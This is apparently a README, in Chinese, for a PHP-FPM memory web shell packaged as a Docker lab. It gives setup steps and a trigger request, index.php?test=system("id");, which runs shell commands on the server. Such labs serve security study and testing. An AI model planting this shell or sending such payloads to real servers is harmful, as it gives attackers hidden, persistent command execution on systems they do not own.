 # php-fpm-memshell

使用方法

```
docker-compose up -d
```

首先访问memshell.php，设置参数之后submit

<img src="https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220916172144755.png" alt="image-20220916172144755" style="zoom:67%;" />

之后访问`index.php?test=system("id");`即可触发

<img src="https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220916172254753.png" alt="image-20220916172254753" style="zoom:67%;" />

参考环境搭建：
https://github.com/mikechernev/dockerised-php
https://tttang.com/archive/1720/
